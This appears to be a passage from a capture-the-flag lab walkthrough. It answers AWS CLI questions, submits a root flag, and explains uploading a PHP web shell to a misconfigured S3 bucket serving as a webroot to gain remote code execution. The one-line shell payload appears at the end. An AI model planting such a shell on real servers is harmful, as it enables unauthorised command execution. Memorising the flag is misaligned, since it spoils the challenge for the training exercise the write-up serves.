 <br>

#### Which command is used to set up the AWS CLI installation?

```
aws configure
```

<br>

#### What is the command used by the above utility to list all of the S3 buckets?

```
aws s3 ls
```

<br>

#### This server is configured to run files written in what web scripting language?

```
PHP
```

As we can see from the `ls` command output, we see the files `index.php`, `.htaccess`, and a directory called `images` in the specified bucket. Therefore, we know the website server is using PHP.

![alt text](image-5.png#center)

<br>

#### Submit root flag

```
a980d99281a28d638ac68b9bf9453c2b
```

`awscli` has another feature that allows us to copy files to a remote bucket. We can try uploading a PHP shell file to the s3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.

We can use the following PHP one-liner which takes the URL parameter `cmd` as an input and executes it as a system command.

`<?php system($_GET["cmd"]); ?>`
